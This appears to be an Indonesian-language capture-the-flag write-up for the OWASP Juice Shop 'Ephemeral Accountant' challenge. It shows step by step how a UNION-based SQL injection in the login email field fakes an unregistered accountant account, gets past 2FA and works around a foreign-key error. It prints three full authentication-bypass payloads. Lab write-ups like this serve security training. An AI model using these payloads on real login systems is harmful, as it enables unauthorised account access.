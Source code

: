 # Ephemeral Accountant

## Deskripsi
Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user.

## Resource
https://portswigger.net/web-security/sql-injection/examining-the-database
https://portswigger.net/web-security/sql-injection/union-attacks

## Langkah - langkah
1. Cari schema untuk tabel `Users` (didapat dari soal `Database Schema`).
   <img width="1919" height="1140" alt="image" src="https://github.com/user-attachments/assets/59ac8d25-3050-4922-a6a8-ff5aee2ba325" />
   Ada 13 kolom, yaitu `id`, `username`, `email`, `password`, `role`, `deluxeToken`, `lastLoginIp`, `profileImage`, `totpSecret`, `isActive`, `createdAt`, `updatedAt`, `deletedAt`

2. Masuk ke login page.
   <img width="1919" height="1091" alt="image" src="https://github.com/user-attachments/assets/0a12cb6c-ec24-46f0-968e-b1cefbc2491b" />

3. Buat payload yang akan dimasukkan ke kolom "Email", yaitu `admin' UNION SELECT * FROM (SELECT 67, 'acc0unt4nt@juice-sh.op', 'acc0unt4nt@juice-sh.op', 'aaaa', 'Administrator', '1234', '127.0.0.1', '/assets/public/images/uploads/default.svg', '676941', 0, 1, 2, 3)--`
   <img width="1919" height="1091" alt="image" src="https://github.com/user-attachments/assets/bd0ec853-7fb5-4dd0-bc95-6cd53f97c811" />
   Hasil:
   <img width="1919" height="1091" alt="image" src="https://github.com/user-attachments/assets/882897db-38c1-4ab8-a06e-f6c7e2775c36" />

4. Karena ada 2FA, maka kosongkan kolom `totpSecret` pada payload.

   Payload: `admin' UNION SELECT * FROM (SELECT 67, 'acc0unt4nt@juice-sh.op', 'acc0unt4nt@juice-sh.op', 'aaaa', 'Administrator', '1234', '127.0.0.1', '/assets/public/images/uploads/default.svg', '', 0, 1, 2, 3)--`
   <img width="1919" height="1085" alt="image" src="https://github.com/user-attachments/assets/2b5fea98-920a-4634-8366-9205fa282cda" />
   Hasil:
   <img width="1919" height="1092" alt="image" src="https://github.com/user-attachments/assets/3723a658-72d3-42ce-84c1-b9c3926ec3f8" />

6. Karena ada error `FOREIGN KEY constraint failed`, kurangi kolom `id` dari `67` menjadi `20`.

   Payload: `admin' UNION SELECT * FROM (SELECT 20, 'acc0unt4nt@juice-sh.op', 'acc0unt4nt@juice-sh.op', 'aaaa', 'Administrator', '1234', '127.0.0.1', '/assets/public/images/uploads/default.svg', '', 0, 1, 2, 3)--`   
   <img width="1919" height="1084" alt="image" src="https://github.com/user-attachments/assets/9728f52b-a356-4a98-8a7c-d272328b7e86" />
   Hasil:
   <img width="1919" height="1084" alt="image" src="https://github.com/user-attachments/assets/e5cd0538-2138-463f-8f80-c39a72c73dcd" />

## Catatan
Karena schema table sudah ada dari soal lain, maka bisa digunakan untuk membuat payload tanpa harus menentukan tipe dan jumlah kolom.

Selain itu, adanya 2FA saat mencoba login disebabkan kolom `totpSecret` yang tidak kosong, tetapi datanya tidak ada di database sehingga tidak ada token yang valid untuk akun ini.
Karena struktur query SQL tidak diketahui, maka cari jumlah kolom yang sesuai untuk UNION.

Setelah mendapatkan jumlah kolom, dapatkan seluruh schema database dari tabel sqlite_schema. Hal ini menunjukkan bahwa database yang digunakan adalah SQLite.
